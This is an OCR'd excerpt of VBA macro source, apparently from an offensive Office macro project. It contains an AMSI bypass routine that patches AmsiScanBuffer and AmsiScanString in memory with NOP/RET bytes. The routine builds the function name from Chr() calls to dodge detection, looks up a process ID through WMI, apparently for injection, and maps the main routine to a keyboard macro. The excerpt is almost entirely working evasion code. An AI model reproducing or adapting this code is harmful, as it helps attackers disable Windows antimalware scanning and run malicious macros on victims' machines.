```vba
                    isWow64 = False
                End If
            End If
        Next i
    End If
End Function

Sub patch(StrFile As String, Is64 As Boolean)
    ' Patches amsi.dll in memory in order to disable it.  Loads memory address of amsi.dll and then locates the AmsiUacInitialize function within it.
    ' The AmsiScanBuffer and AmsiScanString functions are located via relative offset from AmsiUacInitialize and then overwritten with a nop and then a ret to disable them.
    ' Depending on architecture these offsets vary, so a case is included for x86 and x64
    Dim lib As LongPtr
    Dim Func_addr As LongPtr
    Dim temp As LongPtr
    Dim old As LongPtr
    Dim off As Integer

    lib = getmod(StrFile)
    If Is64 Then
        off = 96
    Else
        off = 80
    End If
    
    Func_addr = GetPrAddr(lib, "Am" & Chr(115) & Chr(105) & "U" & Chr(97) & "c" & "Init" & Chr(105) & Chr(97) & "lize") - off
    temp = VirtPro(ByVal Func_addr, 32, 64, 0)
    patched ByVal (Func_addr), 1, ByVal ("&H" & "90")
    patched ByVal (Func_addr + 1), 1, ByVal ("&H" & "C3")
    temp = VirtPro(ByVal Func_addr, 32, old, 0)

    If Is64 Then
        off = 352
    Else
        off = 256
    End If

    Func_addr = GetPrAddr(lib, "Am" & Chr(115) & Chr(105) & "U" & Chr(97) & "c" & "Init" & Chr(105) & Chr(97) & "lize") - off
    temp = VirtPro(ByVal Func_addr, 32, 64, old)
    patched ByVal (Func_addr), 1, ByVal ("&H" & "90")
    patched ByVal (Func_addr + 1), 1, ByVal ("&H" & "C3")
    temp = VirtPro(ByVal Func_addr, 32, old, 0)
End Sub

Function getPID(injProc As String) As LongPtr
    Dim objServices As Object, objProcessSet As Object, Process As Object

    Set objServices = GetObject("winmgmts:\\.\root\CIMV2")
    Set objProcessSet = objServices.ExecQuery("SELECT ProcessID, name FROM Win32_Process WHERE name = """ & injProc & """", , 48)
    For Each Process In objProcessSet
        getPID = Process.ProcessID
    Next
End Function

Sub test()
    mymacro
End Sub
Sub queen()
    'queen is the keyboard mapped macro to run the main test function.
```